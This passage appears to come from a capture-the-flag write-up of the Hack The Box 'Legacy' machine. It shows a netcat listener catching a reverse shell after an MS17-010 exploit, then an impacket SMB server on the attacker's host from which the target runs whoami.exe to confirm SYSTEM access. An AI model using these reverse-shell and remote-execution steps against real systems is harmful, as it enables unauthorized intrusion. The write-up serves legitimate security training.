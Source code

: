 And by the end of execution of this script we get a reverse shell for the target machine

```
┌──(kali㉿kali)-[~/Desktop/htb/legacy/MS17-010]
└─$ nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.4] 1049
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>sysinfo
sysinfo
'sysinfo' is not recognized as an internal or external command,
operable program or batch file.

C:\WINDOWS\system32>whoami
whoami
'whoami' is not recognized as an internal or external command,
operable program or batch file.
```

But it looks like the commands that we use to confirm the access are not present on the machine. So, we need to send them to the target machine. Our main concern is to make sure we have access as the `SYSTEM` for which we need to run `whoami` and there is a `whoami.exe` file on Kali by default.

```
┌──(kali㉿kali)-[~/Desktop/htb/legacy/MS17-010]
└─$ find / -name whoami.exe -exec cp {} . 2> /dev/null \;
```

To send this over the target machine, we can't use `wget` or `nc` as they are not present on the target machine. So, we can create a SMB server on our machine and host the executable. So, then we can access the SMB share from the target machine and download the same.

We can create an SMB server as

```
┌──(kali㉿kali)-[~/Desktop/htb/legacy/MS17-010]
└─$ /usr/share/doc/python3-impacket/examples/smbserver.py stuff .

Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

*You can find this script by running `find` or `locate` command. There might be multiple results but try each one of them.*

Once, the SMB server is started run the following on the target machine

```
C:\WINDOWS\system32>//10.10.16.4/stuff/whoami.exe
//10.10.16.4/stuff/whoami.exe
NT AUTHORITY\SYSTEM
```
